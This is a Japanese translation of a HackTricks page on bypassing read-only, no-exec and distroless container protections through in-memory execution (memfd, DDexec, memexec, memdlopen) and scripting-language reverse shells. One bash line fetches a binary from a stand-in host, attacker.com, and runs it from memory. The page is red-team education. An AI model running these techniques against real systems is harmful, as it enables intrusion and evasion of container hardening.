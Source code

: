 # ファイルシステム保護のバイパス：読み取り専用 / 実行不可 / Distroless

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**に参加するか、[telegramグループ](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローする
* **ハッキングトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**ハッキングキャリア**に興味がある方や、**解読不能なものをハック**したい方 - **採用中です！**（流暢なポーランド語の読み書きが必要です）。

{% embed url="https://www.stmcyber.com/careers" %}

## 動画

以下の動画では、このページで言及されているテクニックについて詳しく説明されています：

* [**DEF CON 31 - ステルスおよび回避のためのLinuxメモリ操作の探索**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ngおよびインメモリdlopen()によるステルス侵入 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 読み取り専用 / 実行不可シナリオ

**Linuxマシンが**特にコンテナで**読み取り専用（ro）ファイルシステム保護**でマウントされることがますます一般的になっています。これは、`securitycontext`で**`readOnlyRootFilesystem: true`**を設定するだけで、roファイルシステムでコンテナを実行するのが簡単だからです：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

しかし、ファイルシステムがroとしてマウントされていても、**`/dev/shm`**は書き込み可能のままなので、ディスクに書き込むことができないというのは偽物です。ただし、このフォルダは**実行不可保護**でマウントされるため、ここにバイナリをダウンロードしても**実行できません**。

{% hint style="warning" %}
レッドチームの観点からすると、これは**バイナリをダウンロードして実行するのが複雑**になります（バックドアや`kubectl`のような既存のシステムにないバイナリを含む）。
{% endhint %}

## 最も簡単なバイパス：スクリプト

バイナリを言及しましたが、インタプリタがマシン内にある限り、**シェルスクリプト**（`sh`が存在する場合）や**Pythonスクリプト**（`python`がインストールされている場合）など、**任意のスクリプトを実行**できます。

ただし、これだけではバイナリバックドアや実行する必要がある他のバイナリツールを実行するのには十分ではありません。

## メモリバイパス

ファイルシステムがそれを許可していない場合にバイナリを実行したい場合、**メモリから実行する**のが最善です。なぜなら、**その保護はそこには適用されない**からです。

### FD + execシスコールバイパス

**Python**、**Perl**、または**Ruby**などの強力なスクリプトエンジンがマシン内にある場合、メモリから実行するためにバイナリをダウンロードし、メモリファイルディスクリプタに保存し（`create_memfd`シスコール）、これらの保護によって保護されないため、**fdをファイルとして実行する**という**`exec`シスコール**を呼び出すことができます。

これには、プロジェクト[**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)を簡単に使用できます。バイナリを渡すと、**バイナリが圧縮されb64エンコードされた**スクリプトが生成され、`create_memfd`シスコールを呼び出して作成された**fd**に**デコードおよび解凍する**手順が含まれ、それを実行する**exec**シスコールが呼び出されます。

{% hint style="warning" %}
これは、PHPやNodeなどの他のスクリプト言語では機能しないため、スクリプトから**生のシスコールを呼び出すデフォルトの方法**がないため、`create_memfd`を呼び出して**バイナリを保存するメモリfd**を作成することはできません。

また、`/dev/shm`内のファイルで**通常のfd**を作成しても、**実行不可保護**が適用されるため、実行できません。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)は、**`/proc/self/mem`**を上書きすることで、**自分自身のプロセスのメモリを変更**する技術であり、**プロセスが実行しているアセンブリコード**を制御することで、**シェルコード**を書き込み、プロセスを**任意のコードを実行**するように「変異」させることができます。

{% hint style="success" %}
**DDexec / EverythingExec**を使用すると、**自分自身のメモリから**自分自身の**シェルコード**または**任意のバイナリ**を**ロードして実行**できます。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec)はDDexecの自然な次のステップです。これは**DDexecシェルコードをデーモン化**したもので、異なるバイナリを実行したいときには、DDexecを再起動する必要はありません。代わりに、DDexec技術を使用してmemexecシェルコードを実行し、**このデーモンと通信して新しいバイナリをロードして実行**できます。

**memexecを使用してPHPリバースシェルからバイナリを実行する例**は、[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)で見つけることができます。

### Memdlopen

DDexecと同様の目的を持つ[**memdlopen**](https://github.com/arget13/memdlopen)技術は、後で実行するためにメモリにバイナリをロードする**簡単な方法**を提供します。これにより、依存関係を持つバイナリをロードすることさえ可能になります。

## Distroless Bypass

### Distrolessとは

Distrolessコンテナには、ライブラリやランタイム依存関係など、特定のアプリケーションやサービスを実行するために必要な**最小限のコンポーネント**だけが含まれており、パッケージマネージャーやシェル、システムユーティリティなどのより大きなコンポーネントは含まれていません。

Distrolessコンテナの目標は、**不要なコンポーネントを排除**し、悪用される可能性のある脆弱性の数を最小限に抑えることで、コンテナの攻撃面を**縮小**することです。

### リバースシェル

Distrolessコンテナでは、通常のシェルを取得するための`sh`や`bash`などが**見つからない**かもしれません。`ls`、`whoami`、`id`などのバイナリも見つけることはできません。これらは通常、システムで実行するものです。

{% hint style="warning" %}
したがって、通常どおりに**リバースシェル**を取得したり、システムを**列挙**することはできません。
{% endhint %}

ただし、侵害されたコンテナが例えばflask webを実行している場合、Pythonがインストールされているため、**Pythonリバースシェル**を取得できます。Nodeを実行している場合はNodeリバースシェルを取得でき、ほとんどの**スクリプト言語**でも同様です。

{% hint style="success" %}
スクリプト言語を使用すると、言語の機能を使用してシステムを**列挙**できます。
{% endhint %}

**`read-only/no-exec`**の保護がない場合、リバースシェルを悪用してファイルシステムに**バイナリを書き込み**、それらを**実行**することができます。

{% hint style="success" %}
ただし、この種のコンテナでは通常、これらの保護が存在しますが、**以前のメモリ実行技術を使用してそれらをバイパス**することができます。
{% endhint %}

**RCE脆弱性を悪用してスクリプト言語のリバースシェルを取得**し、[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)でメモリからバイナリを実行する方法の**例**を見つけることができます。
